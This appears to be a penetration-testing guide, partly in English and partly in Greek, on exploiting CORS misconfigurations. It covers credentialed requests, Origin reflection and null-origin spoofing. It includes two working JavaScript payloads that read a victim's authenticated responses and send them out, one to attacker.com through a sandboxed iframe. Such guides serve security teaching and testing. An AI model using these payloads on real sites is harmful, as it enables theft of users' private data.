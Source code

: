 ## Exploitable misconfigurations

It has been observed that the setting of `Access-Control-Allow-Credentials` to **`true`** is a prerequisite for most **real attacks**. This setting permits the browser to send credentials and read the response, enhancing the attack's effectiveness. Without this, the benefit of making a browser issue a request over doing it oneself diminishes, as leveraging a user's cookies becomes unfeasible.

### Exception: Exploiting Network Location as Authentication

Μια εξαίρεση υπάρχει όπου η τοποθεσία δικτύου του θύματος λειτουργεί ως μορφή αυθεντικοποίησης. Αυτό επιτρέπει στον περιηγητή του θύματος να χρησιμοποιηθεί ως μεσολαβητής, παρακάμπτοντας την αυθεντικοποίηση βάσει IP για την πρόσβαση σε εφαρμογές intranet. Αυτή η μέθοδος έχει ομοιότητες στην επίδραση με το DNS rebinding αλλά είναι πιο απλή στην εκμετάλλευση.

### Reflection of `Origin` in `Access-Control-Allow-Origin`

Το σενάριο του πραγματικού κόσμου όπου η τιμή της κεφαλίδας `Origin` αντικατοπτρίζεται στο `Access-Control-Allow-Origin` είναι θεωρητικά απίθανο λόγω περιορισμών στη συνδυαστική χρήση αυτών των κεφαλίδων. Ωστόσο, οι προγραμματιστές που επιθυμούν να ενεργοποιήσουν το CORS για πολλαπλές διευθύνσεις URL μπορεί να δημιουργήσουν δυναμικά την κεφαλίδα `Access-Control-Allow-Origin` αντιγράφοντας την τιμή της κεφαλίδας `Origin`. Αυτή η προσέγγιση μπορεί να εισαγάγει ευπάθειες, ιδιαίτερα όταν ένας επιτιθέμενος χρησιμοποιεί ένα τομέα με όνομα σχεδιασμένο να φαίνεται νόμιμο, παραπλανώντας έτσι τη λογική επικύρωσης.
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example.com/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```
### Εκμετάλλευση της `null` Προέλευσης

Η `null` προέλευση, που καθορίζεται για καταστάσεις όπως ανακατευθύνσεις ή τοπικά αρχεία HTML, κατέχει μια μοναδική θέση. Ορισμένες εφαρμογές επιτρέπουν αυτή την προέλευση για να διευκολύνουν την τοπική ανάπτυξη, επιτρέποντας ακούσια σε οποιαδήποτε ιστοσελίδα να μιμηθεί μια `null` προέλευση μέσω ενός sandboxed iframe, παρακάμπτοντας έτσι τους περιορισμούς CORS.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```
